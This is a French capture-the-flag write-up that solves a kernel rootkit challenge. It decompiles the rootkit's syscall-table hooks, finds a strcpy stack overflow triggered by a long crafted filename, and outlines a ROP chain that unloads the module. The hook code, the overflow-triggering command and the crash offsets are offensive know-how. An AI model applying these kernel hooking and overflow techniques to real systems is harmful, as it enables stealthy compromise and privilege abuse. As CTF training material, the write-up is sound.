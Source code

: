 # Hello Rootkitty 

## intitulé

> Une machine a été infectée par le rootkit Hello Rootkitty qui empêche la lecture de certains fichiers.
> Votre mission : aider la victime à récupérer le contenu des fichiers affectés. Une fois connecté en SSH, lancez le wrapper pour démarrer le challenge.

## Fichiers fournis
[bzImage](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/bzImage) le kernel linux
[ecsc.ko](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/ecsc.ko) le rootkit sous forme de module kernel 
[initramfs.example.cpio](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/binaries/initramfs.example.cpio) Le système de fichier

Au vu des fichiers, on peut s'imaginer qu'on va devoir exploiter une vulnérabilité kernel.

## Analyse
Après avoir lancé le wrapper mentionné dans l'intitulé, on se rend compte que les fichiers commençants par "ecsc_flag_" ont un comportement étrange : on ne peut pas visualiser leur contenu et ils sont renommés automatiquement :
```bash
~ $ echo "test" > ecsc_flag_1234
~ $ ls -al~~~~
total 0
drwxrwxrwx    2 ctf      ctf              0 May  4 19:44 .
drwxr-xr-x    3 root     root             0 Feb 25 09:30 ..
-r--------    0 root     root             0 Jan  0  1900 ecsc_flag_XXXX
~ $ cat ecsc_flag_XXXX
cat: can't open 'ecsc_flag_XXXX': No such file or direc****tory
```

à noter qu'ils changent de propriétaire et de date.

En décompilant le module avec [ghidra](https://ghidra-sre.org/)  on comprend un peu mieux ce qu'il se passe :
Les syscalls **lstat**, **getdents**, **getdents64** sont *hookés* :
```c
long init_module(void)

{
  ulong *syscall_table;
  ulong in_CR0;
  
  syscall_table = (ulong *)kallsyms_lookup_name("sys_call_table");
  ref_sys_getdents64 = syscall_table[0xd9];
  original_cr0 = in_CR0;
  my_sys_call_table = syscall_table;
  syscall_table[0xd9] = (ulong)ecsc_sys_getdents64;
  ref_sys_getdents = syscall_table[0x4e];
  syscall_table[0x4e] = (ulong)ecsc_sys_getdents;
  ref_sys_lstat = syscall_table[6];
  syscall_table[6] = (ulong)ecsc_sys_lstat;
  return 0;
}
```

le syscall [lstat](https://linux.die.net/man/2/lstat)  permet normalement d'afficher les attributs d'un fichier.
les syscalls [getdents](https://linux.die.net/man/2/getdents) et [getdents64](https://linux.die.net/man/2/getdents) permettent d'afficher le nom des fichiers.

Tout s'explique. On va donc étudier de plus près les hooks de ces syscalls, plus particulièrement celui des syscall **getdents** et **getdents64**. Voilà ce que donne la fonction ecsc_sys_getdents64 :
```c
ulong ecsc_sys_getdents64(ulong fd,dirent *dirp,ulong count)

{
  byte *__src;
  ulong result;
  uint *__src_00;
  uint *puVar1;
  uint *puVar2;
  long i;
  uint uVar3;
  uint uVar4;
  ulong Result;
  byte *pbVar5;
  byte *pbVar6;
  ulong uVar7;
  bool bVar8;
  bool bVar9;
  byte bVar10;
  char local_70 [10];
  undefined8 XXXX;
  
  bVar10 = 0;
  result = (*ref_sys_getdents64)();
  Result = result;
  do {
    if ((long)Result < 1) {
      return result;
    }
    uVar7 = (ulong)dirp->d_reclen;
    __src = (byte *)dirp->d_name;
    i = 10;
    bVar8 = Result < uVar7;
    Result = Result - uVar7;
    bVar9 = Result == 0;
    pbVar5 = __src;
    pbVar6 = (byte *)"ecsc_flag_";
    do {
      if (i == 0) break;
      i = i + -1;
      bVar8 = *pbVar5 < *pbVar6;
      bVar9 = *pbVar5 == *pbVar6;
      pbVar5 = pbVar5 + (ulong)bVar10 * -2 + 1;
      pbVar6 = pbVar6 + (ulong)bVar10 * -2 + 1;
    } while (bVar9);
    if ((!bVar8 && !bVar9) == bVar8) {
      __src_00 = (uint *)**strcpy**(local_70,(char *)__src);
      puVar2 = __src_00;
      do {
        puVar1 = puVar2;
        uVar3 = *puVar1 + 0xfefefeff & ~*puVar1;
        uVar4 = uVar3 & 0x80808080;
        puVar2 = puVar1 + 1;
      } while (uVar4 == 0);
      bVar8 = (uVar3 & 0x8080) == 0;
      if (bVar8) {
        uVar4 = uVar4 >> 0x10;
      }
      if (bVar8) {
        puVar2 = (uint *)((long)puVar1 + 6);
      }
      Result = (long)puVar2 + (-(long)__src_00 - (ulong)CARRY1((byte)uVar4,(byte)uVar4)) + -0xd;
      if (0x3f < Result) {
        Result = 0x40;
      }
      uVar4 = (uint)Result;
      if (uVar4 < 8) {
        if ((Result & 4) == 0) {
          if ((uVar4 != 0) && (*(undefined *)((long)__src_00 + 10) = 0x58, (Result & 2) != 0)) {
            *(undefined2 *)((long)__src_00 + (Result & 0xffffffff) + 8) = 0x5858;
          }
        }
        else {
          *(undefined4 *)((long)__src_00 + 10) = 0x58585858;
          *(undefined4 *)((long)__src_00 + (Result & 0xffffffff) + 6) = 0x58585858;
        }
      }
      else {
        XXXX = 0x5858585858585858;
        *(undefined8 *)((long)__src_00 + (Result & 0xffffffff) + 2) = 0x5858585858585858;
        uVar4 = uVar4 + (((int)__src_00 + 10) - (int)(__src_00 + 4)) & 0xfffffff8;
        if (7 < uVar4) {
          uVar3 = 0;
          do {
            Result = (ulong)uVar3;
            uVar3 = uVar3 + 8;
            *(undefined8 *)((long)(__src_00 + 4) + Result) = 0x5858585858585858;
          } while (uVar3 < uVar4);
        }
      }
      **strcpy**((char *)__src,(char *)__src_00);
      return result;
    }
    dirp = (dirent *)((long)&dirp->d_ino + uVar7);
  } while( true );
}
```

Sans s'attarder sur les détails on voit que :
1. le syscall original est appelé,
2. si le fichier débute par "ecsc_flag_", la suite du nom de fichier est remplacé par de "X"
3. la fonction fait des appels à **strcpy**, ce qui est très dangereux et peut provoquer des buffers overflow. D'une manière générale, on ne fait jamais appel à ces fonctions dans le kernel et les modules, en pivilegiant plutôt les fonctions comme [copy_from_user](https://www.kernel.org/doc/htmldocs/kernel-api/API---copy-from-user.html) par exemple.

Afin de tester la vulnérabilité et de connaitre l'offset pour lequel on overwrite la rip, nous allons faire appel à pwn tools :
```python
Python 2.7.17 (default, Apr 15 2020, 17:20:14) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(150)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma'
>>> 
```
puis :
```bash
cd /home/ctf
touch ecsc_flag_aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
ls -l
```

En résulte un crash kernel :
```
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 53 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff932d81e19980 task.stack: ffff9ac3c009c000
RIP: 0010:0x6163626161626261
RSP: 0018:ffff9ac3c009ff38 EFLAGS: 00000282
RAX: 00000000000000e8 RBX: 6174616161736161 RCX: 0000000000000000
RDX: 00007fff048b3bd4 RSI: ffff9ac3c009ff61 RDI: 00007fff048b3b33
RBP: 617a616161796161 R08: ffff9ac3c009fed0 R09: ffffffffc00d7024
R10: ffff9ac3c009fec0 R11: 6161666261616562 R12: 6176616161756161
R13: 6178616161776161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb9836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007fff048b3af0 CR3: 0000000001e98000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6163626161626261 RSP: ffff9ac3c009ff38
---[ end trace 85871824b1c07ee4 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x37e00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
Rebooting in 1 seconds..
```
Bingo ! pwntools nous donne l'offset en question (Notez la valeur de RIP) :
```python
>>> cyclic_find(p64(0x6163626161626261))
102
```

## Exploit
On s'oriente donc vers un "simple" bufferoverflow. Ne sachant pas l'addresse de la stack et le kernel utilisé étant probablement assez recent, on va devoir utiliser une [ropchain](https://en.wikipedia.org/wiki/Return-oriented_programming). 

Notre ropchain va d'abord appeller la fonction **cleanup_module** (qui fait exactement l'inverse de la fonction **init_module** mentionnée plus haut, à savoir qu'elle restaure la table des syscalls afin que les fonctions originales du noyau soient utilisés). Puis on va dépiler la stack jusqu'à obtenir l'addresse de retour initial (dans **do_syscall_64**, la fonction qui gère les syscall). Le kernel reprendra donc un fonctionnement à peu près normal. Le but de la ropchain n'étant pas de passer root, mais de désactiver le rootkit. Un simple `cat /ecsc_flag_*` affichera le flag après passage de notre exploit.

Voici le [code de mon exploit](https://github.com/gw3l/FCSC-2020-Writeups/blob/master/exploit.c).


